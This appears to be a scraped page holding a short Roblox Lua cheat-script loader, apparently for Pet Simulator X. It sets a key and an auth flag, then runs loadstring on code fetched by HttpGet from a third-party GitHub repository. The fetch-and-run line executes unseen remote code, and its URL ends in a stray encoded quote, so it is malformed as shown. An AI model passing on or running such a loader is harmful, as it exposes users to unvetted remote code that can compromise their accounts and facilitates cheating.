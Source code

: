 
_G.Key = "kaks"
_G.AuthServer = "true"
loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua%22))()
